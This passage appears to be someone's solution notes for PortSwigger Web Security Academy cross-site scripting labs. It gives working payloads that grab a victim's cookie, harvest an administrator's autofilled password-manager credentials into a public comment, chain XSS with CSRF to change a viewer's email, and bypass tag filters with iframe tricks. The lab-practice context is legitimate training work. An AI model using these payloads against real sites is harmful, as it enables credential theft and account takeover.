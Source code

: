 ```
document.getElementById('csrf_value').value = document.cookie;
document.getElementById('csrf').submit();
</script>
```
2. This lab has XSS in the comment body field, and is meant to be solved by using this vulnerability to take advantage of the administrator's password manager in order to steal their credentials. This is supposed to be done using Burp Collaborator, but I don't have Burp Professional and as such had to use an additional CSRF in order to cause the administrator to post their credentials in a comment. The following payload causes the credentials to be posted to the post with ID 1:
```
<script>
function csrf() {
	document.getElementsByName('comment')[0].value = document.getElementById('username').value + ':' + document.getElementById('password').value;
	document.getElementsByName('postId')[0].value = 1;
	document.getElementsByName('name')[0].value = 'asdf';
	document.getElementsByName('email')[0].value = 'asdf@asdf.asdf';
	document.getElementsByName('email')[0].parentElement.submit();
}
</script>
<form>
<input type="text" name="username" id="username">
<input type="password" id="password" name="password" onchange=csrf()>
</form>
```
3. This lab has XSS in the comment body field, and the goal is to use XSS to perform a CSRF attack that changes the email account of any user who views the comment. The following payload performs the attack:
```
<form action="/my-account/change-email" method="POST" id="csrf">
	<input required type="email" name="email" value="fake@attacker.com">
	<input required type="hidden" name="csrf" value="h0a6EGVkgXEuBUPzqmvEL4C5lsoWVx2z" id="csrf_token">
</form>
<script>
var csrf_token = "";
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://ac651fe71e91f168c0fd0e85005200e2.web-security-academy.net/login', false);
xhr.onload = function () {
	if (xhr.readyState === xhr.DONE) {
		if (xhr.status === 200) {
			csrf_token = /name="csrf" value="([^"]+)"/.exec(xhr.responseText)[1];
		}
	}
};
xhr.send(null);
document.getElementById('csrf_token').value = csrf_token;
document.getElementById('csrf').submit();
</script>
```

# Contexts
1. This lab has reflected XSS in the search function, but blocks most tags. The allowed tags and events can be enumerated, resulting in finding the payload `<body onresize=print()>`. This results in the following iframe payload to trigger the XSS automatically: `<iframe src="https://ac111ff91f9e16e7c03d6844006d001a.web-security-academy.net/?search=<body onresize=print()>" onload="this.style.width='100px'">`
2. This lab has reflected XSS, but blocks all non-custom tags. As such, we must create a custom tag with an `onfocus` event listener and cause it to receive focus without user interaction. This can be done via the following iframe payload: `<iframe src="https://ace21fb51f3cd41bc0fc50c9003500ac.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabIndex%3D1%3E%3C%2Fxss%3E#x">`
3. Already solved